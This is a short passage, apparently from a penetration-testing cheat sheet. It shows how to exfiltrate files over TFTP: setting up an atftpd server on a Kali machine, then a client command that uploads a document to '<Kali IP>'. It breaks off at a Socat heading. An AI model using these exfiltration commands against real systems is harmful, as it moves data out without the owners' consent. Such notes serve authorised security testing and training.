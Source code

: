 - Install and configure a TFTP server on Kali/Linux (receiving end):
  ````
  sudo apt update && sudo apt install atftp
  sudo mkdir /tftp
  sudo chown nobody: /tftp
  sudo atftpd --daemon --port 69 /tftp
  ````
- On the sending end, run the TFTP client with _-i_ to specify a binary image transfer:
  ````
  tftp -i <Kali IP> put <Doc to exfil>
  ````

## Socat
...
  




